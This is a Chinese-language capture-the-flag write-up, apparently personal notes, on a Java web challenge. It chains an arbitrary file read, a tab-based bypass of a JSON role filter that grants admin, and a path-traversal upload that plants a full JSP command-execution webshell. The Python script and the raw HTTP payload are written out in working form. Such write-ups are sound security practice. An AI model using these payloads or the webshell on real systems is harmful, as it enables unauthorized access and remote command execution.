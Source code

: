 tags:: [[CTFWEB/JSON]]

-
- # 思路
	- 利用任意文件读取漏洞得到源码
	  collapsed:: true
		- `/home/download`处有任意文件读取
		- 通过 ((641ae855-b000-4991-80f0-8172ecb29684)) 可以知道web.xml以及所有类的路径，下载即可得到源码
	- 利用不正确的JSON解析方式篡改role字段，注册admin权限账户
	  collapsed:: true
		- 题目会将传入的JSON中的空格去除，然后通过正则表达式替换JSON中的role字段
			- ```java
			  // 获取上传的JSON，将空格去除，将单引号转换成双引号
			  String var = req.getParameter("data").replaceAll(" ", "").replace("'", "\"");
			  // 用regex匹配其中的role字段
			  Matcher matcher = Pattern.compile("\"role\":\"(.*?)\"").matcher(var);
			  while (matcher.find()) {
			    role = matcher.group();
			  }
			  // 变量role是其中的最后一个结果
			  if (!StringUtils.isNullOrEmpty(role)) {
			    // 替换role为guest
			    person = (Person) gson.fromJson(var.replace(role, "\"role\":\"guest\""), Person.class);
			  } else {
			    person = (Person) gson.fromJson(var, Person.class);
			    person.setRole("guest");
			  }
			  ```
		- 如果我们可以让regex匹配不到我们的role字段，就可以将role设置为admin而不被替换
		- 我们可以利用添加tab或者添加`/**/`注释的方式绕过regex
		- payload
			- ```python
			  name = "114514"
			  print(name)
			  r = base_post("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/register", data = {
			      "data": '{"username":"USERNAME","password":"aaa","role":"guest","role" :"admin"}'.replace("USERNAME", name).replace(" ", "\t")
			  })
			  r = base_post("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/login", data = {
			      "data": '{"username":"USERNAME","password":"aaa"}'.replace("USERNAME", name)
			  })
			  r = base_get("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/home")
			  print("guest" in r.text, "admin" in r.text)
			  ```
	- 利用上传文件过滤的逻辑漏洞
		- 源码
			- ```java
			  if (checkExt(ext) || checkContent(item.getInputStream())) {
			    req.setAttribute("error", "upload failed");
			    req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
			  }
			  //                  WEB-INF/upload/{name}{ext}
			  item.write(new File(uploadPath + File.separator + name + ext));
			  req.setAttribute("error", "upload success!");
			  ```
		- 可以看到上传文件后即使文件有害也不会删除文件
		- 我们可以直接往static文件夹上传jsp webshell
		- payload参考[[CTFWEB/JSP]]
		- payload
		  collapsed:: true
			- ```http
			  POST /home/upload HTTP/1.1
			  Host: e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81
			  Content-Length: 1101
			  Cache-Control: max-age=0
			  Upgrade-Insecure-Requests: 1
			  Origin: http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81
			  Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB7pWEr2icpXgE8L5
			  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
			  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
			  Referer: http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/home/upload
			  Accept-Encoding: gzip, deflate
			  Accept-Language: zh-CN,zh;q=0.9
			  Cookie: JSESSIONID=893CB3940693AEEE77397D96D06F9CF4
			  Connection: close
			  
			  ------WebKitFormBoundaryB7pWEr2icpXgE8L5
			  Content-Disposition: form-data; name="file"; filename="../../static/b.jsp"
			  Content-Type: application/octet-stream
			  
			  <%@ page import="java.io.*" %>
			  <%
			  String cmd = request.getParameter("cmd");
			  String output = "";
			  if(cmd != null) {
			      String s = null;
			      try {
			          Process p = Runtime.getRuntime().exec(cmd);
			          BufferedReader stdInput = new BufferedReader(new 
			  InputStreamReader(p.getInputStream()));
			          BufferedReader stdError = new BufferedReader(new 
			  InputStreamReader(p.getErrorStream()));
			          while ((s = stdInput.readLine()) != null) {
			              output += s+"\n";
			          }
			          while ((s = stdError.readLine()) != null) {
			              output += s+"\n";
			          }
			      }
			      catch (IOException e) {
			          e.printStackTrace();
			      }
			  }
			  %>
			  <html>
			  <head>
			  <title>JSP Webshell</title>
			  </head>
			  <body>
			  <form method="GET" action="<%=request.getRequestURI()%>">
			  <input type="text" name="cmd" size="80">
			  <input type="submit" value="Execute">
			  </form>
			  <pre>
			  <%=output %>
			  </pre>
			  </body>
			  </html>
			  
			  ------WebKitFormBoundaryB7pWEr2icpXgE8L5--
			  
			  ```
	-